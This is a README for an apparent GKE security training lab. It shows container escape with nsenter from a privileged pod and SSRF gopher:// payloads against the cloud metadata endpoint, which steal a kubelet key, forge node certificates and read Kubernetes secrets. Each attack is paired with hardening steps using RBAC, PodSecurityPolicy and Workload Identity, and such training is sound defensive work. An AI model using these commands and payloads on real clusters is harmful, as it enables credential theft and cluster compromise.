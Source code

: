 # training-gke-security
This repository is for demo of training of GKE Security

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/training-gke-security&page=editor&cloudshell_tutorial=README.md)

## Preparation
#### Set project id
```
PROJECT_ID="Your Project Name"
```

```
gcloud config set project $PROJECT_ID
```

#### Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

#### Create GKE Cluster
```bash
gcloud beta container clusters create gke-security-testing --zone us-central1-a --machine-type n1-standard-1 --num-nodes 3 --enable-pod-security-policy --async
```
- You can check the status on [console](https://console.cloud.google.com/kubernetes/list)

#### Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

#### Testing
```
kubectl get node
```

#### Deploy web server
```
kubectl apply -f manifest/ssrf_server/ -R
```
- Please don't expose deployment on the Internet through Service.

## Demo 1: PodSecurityPolicy/RBAC
#### Run root container
```
kubectl apply -f manifest/root/pod.yaml
```

#### Enter root
```
kubectl exec -it root-container -- /bin/sh -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```

#### Get credentials
```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get secret dummy-secret -o yaml
```

#### Get credentials(method 2)
```
docker ps -q | xargs docker inspect --format='{{range .Config.Env}}{{println .}}{{end}}' | grep DB_Password
```

```
exit
```

#### How to block
- RBAC
- PodSecurityPolicy

```
alias kubectl-user='kubectl --as=system:serviceaccount:default:unprivileged-user'
```
```
kubectl delete pod root-container
```
```
kubectl delete rolebinding default-psp
```

##### Apply PodSecurityPolicy and RBAC
```
kubectl apply -f manifest/psp/ -R
```

##### Try to deploy privileged pod
```
kubectl-user apply -f manifest/root/pod.yaml
```
##### Try to use kubectl to another namaspaces
```
kubectl-user get pod -n kube-system
```

## Demo 2: Workload Identity
#### Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080 2>&1 >/dev/null &
```

#### Open Web Preview
![web-preview](https://github.com/rung/training-gke-security/raw/master/img/web-preview.png)
![web-page](https://github.com/rung/training-gke-security/raw/master/img/web-page.png)

#### Input url (for testing)
```
https://www.example.com
```

#### Input malicious url
#### Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

![web-metadata](https://github.com/rung/training-gke-security/raw/master/img/web-metadata.png)

#### Save the metadata to metadata-script/metadata.txt
```
cd metadata-script
```

```
curl -X POST 'http://localhost:8080/get_contents' --data 'url=gopher%3A%2F%2F169.254.169.254%3A80%2F_GET+%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2Fkube-env%3Falt%3Djson+HTTP%2F1.1%250d%250aMetadata-Flavor%3A+Google%250d%250aConnection%3A+Close%250d%250a%250d%250a' -o metadata.txt
```

#### Move current kubeconfig file
```
mv ~/.kube/config ~/.kube/config.tmp
```
```
kubectl config get-contexts
```

#### Get node certificate
- Extract necessary data from metadata
```bash
bash extract.sh
```
```
ls -l metadata
```

- Send CSR and Get node certificate
```
bash make_cert.sh $(cat metadata/nodename)
```

#### Get credentials
- Set env vars
```
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)" && echo $KUBE_OPT
```

- Get secretName
```
kubectl $KUBE_OPT describe pod | grep secret
```

- Get secret
```
kubectl $KUBE_OPT get secret dummy-secret -o yaml
```

#### Move back kubeconfig file
```
mv ~/.kube/config.tmp ~/.kube/config
```
```
kubectl config get-contexts
```

#### (Reference) Get instance token (doesn't use it in this training)
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

### How to block
#### [Workload Identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
- Enable workload identity (Need much time)
```
gcloud beta container clusters update gke-security-testing --identity-namespace=${PROJECT_ID}.svc.id.goog --region us-central1-a
```

```
gcloud beta container node-pools update default-pool --cluster=gke-security-testing --workload-metadata-from-node=GKE_METADATA_SERVER --zone us-central1-a
```

![web-workload-identity-enabled.png](https://github.com/rung/training-gke-security/raw/master/img/web-workload-identity-enabled.png)

## (After this training) Delete cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
